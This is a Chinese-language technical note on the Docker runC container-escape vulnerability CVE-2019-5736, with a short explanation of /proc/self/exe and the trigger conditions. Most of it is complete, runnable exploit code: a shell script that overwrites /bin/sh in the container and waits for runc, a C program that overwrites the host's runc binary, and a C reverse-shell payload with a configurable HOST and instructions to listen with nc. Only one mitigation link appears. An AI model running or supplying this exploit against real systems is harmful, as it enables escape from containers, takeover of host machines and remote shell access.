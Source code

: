 # Docker基于runC逃逸漏洞

## 触发条件

通过`docker exec -it <CONTAINER ID> /bin/bash`进入容器执行`/bin/bash`文件，将其覆盖为`#!/proc/self/exe`。

添加可执行权限。

!!! danger "触发条件"
    容器中的进程以 {==root==} 权限运行。

## proc

系统自动将进程信息挂载到`/proc`。

进程在访问`/proc/self`时，相当于访问`/proc/[pid]`，pid为自己。

- `/proc/[pid]/exe`执行命令的实际路径，可通过该命令拷贝进程。
- `/proc/[pid]/fd`包含该进程打开的每个文件的句柄。

!!! quote
    proc(5): <http://man7.org/linux/man-pages/man5/proc.5.html>

## exploit代码

<https://github.com/feexd/pocs/tree/master/CVE-2019-5736>

Edit HOST inside `payload.c`, compile with `make`. Start `nc` and run `pwn.sh` inside the container.

!!! danger "使用前请备份"
    - 该exploit会修改host上的`/usr/bin/docker-runc`
    - 该exploit会修改容器中的`/bin/sh`

```bash tab="pwn.sh"
#!/bin/bash

function pwn() {
    # 将容器中的/bin/sh篡改为/proc/self/exe并添加可执行权限
    echo '#!/proc/self/exe' > /bin/sh
    chmod +x /bin/sh

    while true; do  # 监听含有runc命令参数的程序启动
        for f in /proc/*/exe; do
            tmp=${f%/*}  # 去掉/exe
            pid=${tmp##*/}  # 去掉/proc/
            cmdline=$(cat /proc/${pid}/cmdline)  # 获取进程命令参数

            if [[ -z ${cmdline} ]] || [[ ${cmdline} == *runc* ]]; then
                echo starting exploit
                ./exploit /proc/${pid}/exe
            fi
        done
    done
}

exec 2>/dev/null
pwn
```

```c tab="exploit.c"
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

#define PAYLOAD_MAX_SIZE 1048576
#define O_PATH 010000000
#define SELF_FD_FMT "/proc/self/fd/%d"

int main(int argc, char **argv) {
    int fd, ret;
	char *payload, dest[512];

    if (argc < 2) {
        printf("usage: %s FILE\n", argv[0]);
        return 1;
    }

    payload = malloc(PAYLOAD_MAX_SIZE);
    if (payload == NULL) {
        puts("Could not allocate memory for payload.");
        return 2;
    }

    //读取payload文件内容
    FILE *f = fopen("./payload", "r");
    if (f == NULL) {
        puts("Could not read payload file.\n");
        return 3;
    }
    int payload_sz = fread(payload, 1, PAYLOAD_MAX_SIZE, f);

    for (;;) {
        fd = open(argv[1], O_PATH);  //写入到/proc/{pid}/exe
        if (fd >= 0) {
            printf("Successfuly opened %s at fd %d\n", argv[1], fd);
            snprintf(dest, 500, SELF_FD_FMT, fd);
            puts(dest);
            for (int i = 0; i < 9999999; i++) {
                fd = open(dest, O_WRONLY | O_TRUNC);
                if (fd >= 0) {
                    printf("Successfully openned runc binary as WRONLY\n");
                    ret = write(fd, payload, payload_sz);
                    if (ret > 0) printf("Payload deployed\n");
                    break;
                }
            }
            break;
        }
    }
    return 0;
}
```

```c tab="payload.c"
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

#define HOST "127.0.0.1"
#define PORT 4455

int main (int argc, char **argv) {
  int scktd;
  struct sockaddr_in client;

  client.sin_family = AF_INET;
  client.sin_addr.s_addr = inet_addr(HOST);
  client.sin_port = htons(4455);

  scktd = socket(AF_INET,SOCK_STREAM,0);
  connect(scktd,(struct sockaddr *)&client,sizeof(client));

  dup2(scktd,0); // STDIN
  dup2(scktd,1); // STDOUT
  dup2(scktd,2); // STDERR

  execl("/bin/sh","sh","-i",NULL,NULL);

  return 0;
}
```

## 消减措施

- kubernetes: <https://kubernetes.io/blog/2019/02/11/runc-and-cve-2019-5736/>


!!! quote "参考链接"
    - Go语言POC：<https://github.com/Frichetten/CVE-2019-5736-PoC>
    - 容器镜像：<https://github.com/q3k/cve-2019-5736-poc>
    - touch文件POC：<https://x3fwy.bitcron.com/post/runc-malicious-container-escape>
    - 嘶吼：<https://www.4hou.com/vulnerable/16243.html>
